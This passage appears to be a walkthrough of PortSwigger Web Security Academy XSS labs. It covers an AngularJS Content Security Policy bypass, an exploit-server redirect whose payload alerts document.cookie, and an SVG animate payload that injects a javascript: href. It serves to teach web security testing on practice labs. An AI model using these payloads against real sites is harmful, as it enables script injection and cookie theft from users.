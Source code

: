 - `default-src 'self'` -> Only allow to load resources from the same origin by default.
- `script-src 'self'` -> Allow to load script from the same domain. Don't allow to load inline scripts(`<script>alert(0)</script>`). Don't allow 'eval()' function. 
- `style-src 'unsafe-inline' 'self'` -> Allow inline styles from the domain.

If we look the [XSS Cheatsheet portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and search for 'AngularJS CSP bypass' we found the payloads.

```js
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>
```

- `<input id=x` -> create input html tag.
- `ng-focus` -> It's like attribute onfocus in html.
- `$event.composePath()` -> It's used to force the evaulation of a instruction, return an array of all the elements of the DOM that passing the element.
- `|orderBy:` -> | is a pipe that is using to filter results.
- `'(z=alert)(1)'>` -> Is the same that z(1) -> alert(1).

We can try this payload, we see the **ng-focus**, that control what happens if get the focus. This is not a inline script, we can bypass the CSP.

But you have to automate this because require user interaction, go to exploit server and put the following in the body.

```html
<script>
location = 'https://0a1600f703a30b7580210dbf0064008f.web-security-academy.net/?search=<input%20id=x ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27>#x';
</script>
```

I choose this payload because have the id=x attribute and we can use this to get the focus of the element using the fragment at the final. `#x`.

I recommend you to URL encode the single quotes(%27) of the payload and the spaces with(%20).

# Reflected XSS with event handlers and `href` attributes blocked

In this lab we can use `<a>` but we can use the attribute `href` and `<svg>`.

You can try to do bruteforce to discover new tags, but I don't recommend you because the lab will be very slow.

We can use a vectorial image(svg) that allows you to create links like in HTML.

```html
<svg><a><animate attributeName=href values=javascript:alert(0) /><text x=30 y=30 >Click me!</text></a>
```

- The animate element animates others element in svg, in this case **href**.
- Change the value of the attribute to javascript:alert(0) schema that trigger a XSS.
- Then create text in the svg tag. You have to indicate coordinates to appear.

# Reflected XSS in a JavaScript URL with some characters blocked
